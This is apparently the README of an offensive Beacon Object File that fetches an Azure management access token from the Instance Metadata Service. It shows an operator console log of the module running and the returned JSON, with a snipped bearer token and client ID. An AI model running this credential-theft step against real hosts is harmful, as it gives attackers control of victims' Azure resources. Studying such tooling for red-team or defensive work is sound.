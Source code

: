 # Overview
Requests an access token from the Azure Instance Metadata Service (IMDS) for the management resource.


```
[17/12/2024 23:33:27] (finished) operator > exec_bof
[*] Running BOF with name "imds_management_token.x64.o"

[+] Sending request to IMDS endpoint
[+] IMDS Response:
{"access_token":"eyJ0eXA<snip>tmZqw","client_id":"0fda84cf-b157-4e79-b6c8-46b9a4b24c45","expires_in":"86012","expires_on":"1734564422","ext_expires_in":"86399","not_before":"1734477722","resource":"https://management.azure.com/","token_type":"Bearer"}
```